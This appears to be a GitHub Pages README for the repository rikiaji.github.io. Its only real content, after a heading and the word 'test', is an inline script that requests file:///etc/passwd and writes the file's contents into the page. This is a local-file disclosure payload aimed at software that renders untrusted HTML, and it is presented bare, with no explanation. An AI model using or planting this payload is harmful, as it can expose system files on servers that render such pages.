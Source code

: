 # rikiaji.github.io
test
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.write(this.responseText)
	};
	x.open("GET","file:///etc/passwd");
	x.send();
</script>
